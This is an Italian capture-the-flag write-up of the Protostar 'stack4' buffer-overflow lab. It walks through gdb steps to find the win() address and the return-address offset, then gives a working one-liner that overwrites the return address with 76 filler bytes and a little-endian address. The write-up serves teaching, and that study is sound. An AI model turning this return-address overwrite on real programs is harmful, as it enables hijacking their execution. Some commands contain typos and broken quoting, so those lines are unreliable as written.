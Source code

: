 # Protostar_stack 4 - Stack-based buffer overflow

## Obiettivo della sfida
Eseguire la funzione _win()_ a tempo di esecuzione, ciò modifica il flusso di esecuzione poichè provoca il salto del codice alla funzione _win()_

## Tentativo
Proviamo a mandere in buffer overflow la variabile _buffer_ con:
```bash
> python -c 'print "a" + 80' | /opt/protostar/stack4
#output
Segmentation fault
```
Il programma scrive le prime 64 "a" in _buffer_ e le restanti vengono scritte in locazioni contigue alcune riservate alla memorizzazione della variabile EBP per la gestione dello stack.
### Riflessione
A differenza della sfida precedente qui non abbiamo una variabile esplicita da sovrascrivere. Abbiamo bisogno di una cella che se sovrascritta provoca l'alterazione del flusso di esecuzione.

### Indirizzo di ritorno
Essa è una cella di dimensioni pari all'architettura(4 byte per Protostar) e contiene l'indirizzo della prima istruzione da eseguire al termine della funzione descritta nello stack frame.

## Strategia di attacco
Sovrascrivere l'indirizzo di ritorno con quello della funzione _win()_ per farlo occorre scoprire l'indirizzo della cella di memoria che contiene l'indirizzo di ritorno e l'indirizzo della funzione _win()_

### Recuperare l'indirizzo di win()
Utilizziamo **gdb**
```bash
> gdb -q /opt/protstar/bin/stack4
(gdb) > p win
$1 = {void (void)} 0x80483f4 <win>
# 0x80483f4 indirizzo di win()
```

### Recuperare l'indirizzo di ritorno
Per ottenere l'indirizzo di ritorno di _main()_ è necessario ricostruire il **layout dello stack** di _stack4_ per farlo(senza il sorgente) bisogna disassemblare il main e possiamo farlo con la funzione **disassemble** di gdb quindi lanciamo
```bash
(gdb) > disassemble main
# Dump of assembler code
```
Analizziamo il dump e vediamo che i registri coinvolti sono:
- ESP: punta al top dello stack
- EBP: puntatore che consente di accedere alle variabili dell'interno frame

Inseriamo un **breakpoint** alla prima istruzione del main (abbiamo l'indirizzo perchè abbiamo il dump).
```bash
(gdb) > b *0x8048408
# breakpoint 1
# eseguiamo il programma
(gdb) > r
# monitoriamo l'evoluzione dello stack monitorando gli indirizzi di EBP e ESP ad ogni passo
(gdb) > p $ebp
$2 = (void *) 0xbffffdc8
(gdb) > p $esp
$3 = (void *) 0xbffffd4c
# 0xbffffd4c indirizzo di ritorno prima dell'esecuzione del main
# eseguiamo le istruzioni assembly passo dopo passo con
(gdb) > si
```

## Come sfruttare le vulnerabilità
Una volta seguita l'evoluzione dello stack possiamo capire quante "a" dobbiamo ripetere fino ad arrivare all'indirizzo di ritorno.  
Quindi dobbiamo dare in input un numero di "a" pari a  
`sizeof(buffer) + sizeof(padding) + sizeof(vecchio EBP)`.  
La dimensione del buffer è **64 byte**, la dimensione del padding è **8 byte** e la dimensione del vecchio EBP che è **4 byte**; quindi possiamo dire che servono **76 "a"** per arrivare all'indirizzo di ritorno.  
Arrivati alla cella dell'indirizzo di ritorno scriviamo l'indirizzo di _win()_ (al contrario perchè è Little Endian).

### Istruzioni da eseguire
```bash
> 'python -c 'print "a" * 76 + "\xf4\x83\x04\x08"'' | /opt/protostar/bin/stack4
# sfida vinta
Segmentation fault
```

## Commenti sulla sfida
Il crash è causato dal fatto che dopo l'esecuzione di _win()_ viene letto il valore successivo dello stack rovinato di conseguenza il programma crasha ma non ci interessa perchè la sfida è vinta.
